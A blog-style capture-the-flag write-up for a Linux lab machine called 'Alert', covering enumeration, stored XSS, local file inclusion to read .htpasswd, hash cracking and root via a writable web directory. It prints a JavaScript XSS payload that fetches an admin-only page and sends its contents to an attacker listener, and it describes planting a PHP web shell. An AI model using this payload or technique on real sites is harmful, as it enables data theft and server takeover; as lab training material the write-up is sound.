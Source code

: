 ```yaml
---
layout: post
title: "Alert-Linux-Easy"
date:   2025-07-15 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/6f4647030d6aadc676b8d8a459de344f.webp
---
```


# Alert

# 1. Enumeration

Start enumerating ports, there is a web application running, and a ssh service we may need to find some creds

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image.png' | relative_url }})

We can perform some actions like, view a .md file, exploring the web application there is a message suggesting report any trouble through contact us 

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_1.png' | relative_url }})

# 2. User flag

Let’s keep enumerating the machine listing directories, there is another one called messages, if we try to send a request to it it doesn’t show anything it may be allowed to show info only to admin

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_2.png' | relative_url }})

Messages is also present in here

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_3.png' | relative_url }})

We tried to upload js code to perform a xss attack, it seems to be vulnerable to it but there are no cookies to steal and we are not able to do anything else different from share the .md file, so we could attempt to fetch files as whoever is behind contact us and send that information to a listener we will set up

```jsx
<script>
fetch("http://alert.htb/index.php?page=messages")
	.then(response => response.text())
	.then(data => {
	fetch("http:/0.0.0.0:0000/?data=" + encodeURIComponent(data));
	})
	.catch(error => console.error("Error", error));
</script>
```

Send the payload but before clicking it in share, intercept the request, copy and paste the link and send it to contact us interface

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_4.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_5.png' | relative_url }})

It will be sent successfully

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_6.png' | relative_url }})

And we will receive the info in the netcat listener

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_7.png' | relative_url }})

Decode it using cyberchef, there is a .txt file on it and it is disclosing the way to access files with messages php script, there may be a LFI 

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_8.png' | relative_url }})

There is a Apache2 server running

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_9.png' | relative_url }})

Check default configuration files

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_10.png' | relative_url }})

It give us the whole configurations and the file where a password is stored

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_11.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_12.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_13.png' | relative_url }})

Check the content on .htpasswd

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_14.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_15.png' | relative_url }})

Albert hash found

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_16.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_17.png' | relative_url }})

Log in as Albert and  get user flag

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_18.png' | relative_url }})

# 3.Priv esc

To escalate privileges we found in `/opt/website-monitor` files that seems to run a web application, root is the owner but management group can performs some tasks in config files

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_19.png' | relative_url }})

Effectively we are part of management group

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_20.png' | relative_url }})

And there is a local service running on port 8080

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_21.png' | relative_url }})

We could forward that port to get more information of this, but i think that we have the necessary to elevate our privileges, furthermore we have the base path where files are requested

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_22.png' | relative_url }})

1. Create a new .php file opening the door to get requests executing commands
2. Make a request executing whatever command we want through the file we’ve created previously

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_23.png' | relative_url }})

Machine Pwned!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
